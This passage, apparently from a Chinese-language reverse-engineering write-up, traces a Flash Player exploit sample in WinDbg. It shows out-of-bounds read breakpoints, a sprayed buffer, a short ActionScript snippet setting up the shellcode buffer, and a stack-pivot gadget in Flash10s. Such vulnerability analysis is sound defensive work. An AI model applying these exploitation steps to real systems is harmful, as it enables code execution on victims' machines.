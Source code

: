 继续执行，程序中断，对应第三次越界读取：

```
0:005> g
Breakpoint 0 hit
eax=3fffffba ebx=05d89030 ecx=0235cd0c edx=0235cd0c esi=05e4a0d0 edi=05e4a0d0
eip=677524b5 esp=0235cb94 ebp=0235ccb0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040202
Flash10s!DllUnregisterServer+0x274e3d:
677524b5 8b0481          mov     eax,dword ptr [ecx+eax*4] ds:0023:0235cbf4=05efdfd8
0:005> dd 05efdfd8 l4
05efdfd8  00000000 076a0000 00400010 0020001e
0:005> dd 076a0000
076a0000  0006400f 41414141 41414141 41414141
076a0010  41414141 41414141 41414141 41414141
076a0020  41414141 41414141 41414141 41414141
076a0030  41414141 41414141 41414141 41414141
076a0040  41414141 41414141 41414141 41414141
076a0050  41414141 41414141 41414141 41414141
076a0060  41414141 41414141 41414141 41414141
076a0070  41414141 41414141 41414141 41414141

```

注意到这里的第二个 DWORD `076a0000` ，就保存在第二次中断时第二个 DWORD 所指向的区域。而`076a0000`中保存的就是代码中的`code`内容，因为如果回头看一下 test 函数一开始的代码，它执行了：

```
this.code.position = 0;
this.code.endian = Endian.LITTLE_ENDIAN;
this.code.writeInt(this.pobj - 1 + 16 + 409600);

```

其中`this.pobj`的值为零，所以最后括号中的表达式计算结果就是`0x6400F`，也就是`076a0000`处保存的数据的首个 DWORD 值。

 

确定了 shellcode 的位置，在这里下一个读写断点（多次调试，地址改变）：

```
0:005> ba r4 076c0000
0:005> g
Breakpoint 1 hit
eax=07724010 ebx=05bfb640 ecx=00000001 edx=00000000 esi=0235cbb4 edi=076c0000
eip=67784bc0 esp=0235cb74 ebp=0235cb7c iopl=0         nv up ei ng nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040297
Flash10s!DllUnregisterServer+0x2a7548:
67784bc0 8d048d00000000  lea     eax,[ecx*4]

```

这里执行的指令是`mov dword ptr [edi+ecx*4-4],eax`，向首四个字节写入了数据，还没有执行到 shellcode，继续执行：

```
0:005> g
(e30.9a8): Single step exception - code 80000004 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=07724010 ebx=05b46800 ecx=076c0000 edx=00000001 esi=05bfb118 edi=05a03000
eip=6771e40b esp=0235cbc0 ebp=0235ccb0 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040206
Flash10s!DllUnregisterServer+0x240d93:
6771e40b 8b5050          mov     edx,dword ptr [eax+50h] ds:0023:07724060=67372527
0:005> uf 67372527
Flash10s+0x12527:
67372527 94              xchg    eax,esp
67372528 c3              ret

```
